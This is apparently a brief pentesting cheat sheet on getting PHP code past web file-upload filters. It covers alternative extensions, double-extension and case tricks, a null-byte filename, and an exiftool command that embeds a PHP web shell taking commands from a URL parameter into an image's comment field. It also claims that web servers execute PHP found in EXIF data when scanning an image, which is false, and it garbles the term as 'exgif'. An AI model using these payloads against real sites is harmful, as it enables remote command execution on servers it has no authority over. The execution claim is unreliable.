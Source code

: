 ```yaml
---
title: "Bypassing Upload Restrictions"
tags: [
]
---
```


PHP has multiple alternative extensions:
>phtml, .php, .php3, .php4, .php5, and .inc

It might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg` or `file.PHp`.

Add a null byte at the end
```bash
cp payload.php payload.php%00.jpg
```

Put a payload inside a jpg file, into the exgif data.  Most web servers scan the file, and when it scans the file it executes the php data in the exgif file.   

Use exiftool
```bash
exiftool -Comment="<?php system($_GET['cmd']); ?>" pic.jpg
```
